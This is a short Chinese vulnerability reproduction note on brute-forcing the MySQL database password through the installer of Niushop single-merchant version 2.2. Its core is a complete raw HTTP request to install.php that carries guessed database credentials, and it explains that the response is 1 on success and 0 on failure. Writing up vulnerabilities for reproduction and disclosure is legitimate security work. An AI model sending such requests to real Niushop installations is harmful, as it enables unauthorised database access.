 ```yaml
---
title: "Niushop 单商户 2.2 爆破MySQL密码"
id: zhfly3050
---
```


# Niushop 单商户 2.2 爆破MySQL密码

## 一、漏洞简介

## 二、漏洞影响

Version：单商户 2.2

## 三、复现过程

### 安装爆破MySQL密码

```
GET /niushop/install.php?action=true&dbserver=127.0.0.1&dbpassword=root2&dbusername=root&dbname=niushop_b2c HTTP/1.1
Host: 127.0.0.1
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Referer: http://127.0.0.1/niushop/install.php?refresh
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: action=db
Connection: close 
```

![image](../img/0c273b46618a944ffd709f0c0a1e78a7.png)

爆破成功返回1，密码错误返回0

## 参考链接

> https://y4er.com/post/niushop-getshell/